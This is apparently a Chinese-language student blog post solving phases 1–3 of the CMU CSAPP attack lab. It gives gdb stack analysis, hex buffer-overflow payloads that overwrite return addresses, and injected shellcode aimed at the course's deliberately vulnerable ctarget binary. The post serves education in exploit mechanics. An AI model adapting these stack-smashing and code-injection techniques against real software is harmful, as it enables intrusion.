 ```yaml
---
layout: post
title: "03 attack lab"
category: Csapp Lab(cmu 15-213)
---
```


CSAPP attack lab

# Attack_LAB

![image-20231219160940326](/assets/Attack_LAB/image-20231219160940326.png)

```
1.执行文件变成汇编
objdump -d ./ctarget > ctarget.s

2.有时候需要注入汇编代码，因此需要把想要的汇编代码需要转成二进制
gcc -c ans.s
objdump -d ans.o > ans.txt

3.结果，答案写在 exeample.txt，需要通过./hex2raw去注入
./hex2raw < exeample.txt | ./ctarget -q
```



## phase_1

```c
test(){
	getbuf()
     xxx
	return
}
通过溢出
1. test()->touch1()
```

原本getbuf之后，根据ret地址，执行xxx代码，目的是通过getbuf溢出修改ret地址，走到目标代码

gdb调试ctarget，使用-q 不连接服务器

![image-20231219161220379](/assets/Attack_LAB/image-20231219161220379.png)

test汇编

![image-20231219161110542](/assets/Attack_LAB/a1.png)

test调用 call getbuf 之后栈帧结构，由于getbuf执行完之后，需要执行下一行代码（0x401976），所以把代码地址保存再栈上面如下0x5561dca0 - 0x5561dca2,一个地址保存一字节，小端存储（低地址0x5561dca0保存最低位76）

![image-20231219161110542](/assets/Attack_LAB/attack0.png)

可以验证

![image-20231219170202518](/assets/Attack_LAB/attack2.png)

getbuf汇编

![image-20231219161053446](/assets/Attack_LAB/a4.png)



进入getbuf，call gets之前的栈帧结构

可以看到rsp，往下40(0x28)个单位，变成了0x5561dc78

![image-20231219161053446](/assets/Attack_LAB/a3.png)



走到gets方法 输入0123456789查看栈的样子,从rsp（0x5561dc78）作为起点，开始填充我们输入的内容

![image-20231219170202518](/assets/Attack_LAB/a5.png)

可以验证

![image-20231219170202518](/assets/Attack_LAB/attack1.png)

所以我们要输入43的字符，40个填充buff缓冲区，剩下3个40 17 c0填充ret指向touch1的地址

由于提示读取文件所以要得到0x4017c0,文本中应该是 

c0 17 40 

所以答案,保存在ctarget1.txt中

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

![image-20231219170412388](/assets/Attack_LAB/image-20231219170412388.png)

## phase_2

```c
test(){
	getbuf()
     xxx
	return
}
通过溢出
1. test()->touch2()

2. 比较cookie和val是否相同
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie)
  {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

已知cookie在cookie.txt中（0x59b997fa）

val的参数是%rdi中，

想要让val==cookie, 因此需要手动给val赋值为 0x59b997fa，即（mov 0x59b997fa  %rdi）

为了实现这个步骤，不能直接修改之前的ret，跳入touch2，需要先mov 0x59b997fa  %rdi之后再进入touch2

思路:

1. ret -> mov 0x59b997fa  %rdi
2. ret->touch2

```
movq $0x59b997fa,%rdi   #1.getbuf执行完之后 ret 直接到这段代码
pushq $0x004017ec  		#2.跳到touch2的地址
retq   #ret：弹出rsp指向的地址，作为下一条要执行代码的地址。会让rsp+8
```

修改ret的地址为0x5561dc78

执行0x5561dc78的汇编代码

ret到touch2

注入之后的栈机构

![image-20231220112823637](/assets/Attack_LAB/p1a2.png)

把汇编转化为机器代码（十六进制的表示）

![image-20231220110724164](/assets/Attack_LAB/p2_1.png)

把汇编转化为机器代码（十六进制的表示）

bf fa  97 b9 59 68 ec 17 40 00  c3

转成十六进制

![image-20231220112823637](/assets/Attack_LAB/p22.png)

根据上图buff答案 cat result_1_2_ans.txt

栈顶是0x5561dc78，从这里开始读代码（bf fa 97 ....）

![image-20231220112616836](/assets/Attack_LAB/p21ans.png)

结果

```
./hex2raw < result_1_2_ans.txt | ./ctarget -q
```

![image-20231220113837068](/assets/Attack_LAB/p21res.png)

## phase_3

跟phase_2差不多，跳到touche3，比较cookie和val，只不过是先把cookie转化为字符串，rdi也需要输入相同的字符串，此时rdi保存的是地址而不是上一步的立即数，因此只需要把phase_2的立即数变成字符串(每个字符都是assic码)

cookie=0x59b997fa

因此val="59b997fa\0" = 0x35 39 62 39  39  37 66 61 00

可以把这个存在某个addr  然后 mov addr rdi



addr的选取不能在buf中因为touch3的栈会覆盖那中间的内容，所以存在test的栈上，可设置再ret的栈之后

由于ret占8byte，所以addr的起始地址应该是 0x5561dca0-0x8=0x5561dca8

所以汇编

```
mov  0x5561dc98  %rdi
pushq 0x4018fa
ret
```

得到十六进制代码

```
gcc -c  result_1_3_asm.s
objdump -d  result_1_3_asm.o >  result_1_3_asm.d
cat result_1_3_asm.d
```

![image-20231220113837068](/assets/Attack_LAB/p132.png)

此时栈如下所示

![image-20231220113837068](/assets/Attack_LAB/p13s.png)

按高地址到低地址填充

48 c7 c7 a8 dc 61 55 68

fa 18 40 00 c3 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00

78 dc 61 55 00 00 00 00

35 39 62 39 39 37 66 61 00



```
./hex2raw < result_1_3_ans.txt  | ./ctarget -q
```



![image-20231220113837068](/assets/Attack_LAB/p13p.png)

**总结**：phase2 和 phase3 的流程是，getbuf走完，回到 0x5561dca0 ，读取该出的吓一跳指令地址，设置到rip上，rip发现是 0x5561dc78 ，执行这里的代码，这里的代码包含pushq $0x4018fa，设置touch函数的地址到栈顶，最后再ret，把rip设置为$0x4018fa（touch方法的地址)，就正常执行touch代码。

